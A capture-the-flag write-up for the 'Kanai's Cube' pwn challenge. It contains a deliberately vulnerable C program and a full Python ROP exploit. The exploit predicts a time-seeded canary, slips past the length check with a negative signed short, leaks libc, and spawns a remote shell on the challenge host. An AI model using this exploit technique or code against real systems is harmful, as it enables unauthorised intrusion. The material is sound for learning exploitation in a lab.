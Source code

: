 ## [Pwn] Kanai's Cube (250)

**Kanais_Cube.cpp**
```c
// Mitigation : ASLR, NX
// compile : gcc -fno-stack-protector -mpreferred-stack-boundary=2 -o Kanais_Cube Kanais_Cube.c -m32

#include <stdio.h>
#include <string.h>
#include <string.h>
#include <stdlib.h>
#include <time.h>

int gl_canary = 0;

int main(int argc, char *argv[])
{
	setvbuf(stdout, 0, 2, 0);
	srand(time(NULL));
	int canary;
	canary = rand();
	gl_canary = canary;
	unsigned short num = 0;
	char vuln[120];
	puts("Input the number of string you want to write!");
	scanf("%hd", &num);
	if((signed short)num > 120) {
		puts("Toooooooo Long!");
		exit(0);
	}
	printf("Input your string! max length : %d\n", (signed short)num);
	fflush(NULL);
	read(0, vuln, (unsigned)num);
	if(canary != gl_canary) {
		puts("[*] Do not Hack me :(");
		exit(0);
	}
	puts(vuln);
	return 0;
}
```

Simple ROP Challenge.  
It use Custom Canary made up of random integer using **time(NULL)** to protect BOF.  
It also check the length if the **length** excessed 120 before input.  

We can bypass the custom canary by setting arguments of **srand** same as challenge's.  
Next, we can also bypass the length check because **scanf** is using "%hd".  
"%hd" is a 2-byte **signed** integer type formatstring.  
So we can simply bypass it by inputting **"-1"**.  

After then, it's just simple ROP Challenge.  
But you can only leak the library in the first attempt, so you should call the **main** function again, and then exploit.

Exploit code is as follows.
```python
from hackutil import *
import ctypes
import struct
from time import *
from socket import *
from telnetlib import *

printf_plt = 0x08048440
read_got = 0x0804A00C
offset_read_system = 0x9e8b0
offset_read_binsh = 0xf7ee9bf0 - 0xf7f6f803
main = 0x080485DD

#============================

HOST = '45.32.38.83'
PORT = 25552

#============================

libc = ctypes.cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6') # Linux env
libc.srand(libc.time(0))

sock = socket(AF_INET, SOCK_STREAM)
sock.connect((HOST, PORT))

print sock.recv(1024)
sock.send('-1\n')

print sock.recv(1024)

canary = libc.rand()
print "[*] Canary : "+str(hex(canary))

sock.send('A'*124+p32(canary)+"BBBB"+p32(printf_plt)+p32(main)+p32(read_got))

sock.recv(1024)
data = sock.recv(1024)
print hexdump(data)

read_lib = up32(data[:4])[0]
system_lib = read_lib - offset_read_system
binsh_lib = read_lib - offset_read_binsh

print "[*] Find read_lib : " + str(hex(read_lib))
print "[*] Find system_lib : " + str(hex(system_lib))
print "[*] Find /bin/sh : " + str(hex(binsh_lib))

####################[ STEP 2 ]###################

libc.srand(libc.time(0))

sock.send('-1\n')

print sock.recv(1024)

canary = libc.rand()
print "[*] Canary : "+str(hex(canary))

sock.send('A'*122+p32(canary)+"B"*12+p32(system_lib)+"AAAA"+p32(binsh_lib))

t = Telnet()
t.sock = sock
t.interact()
```
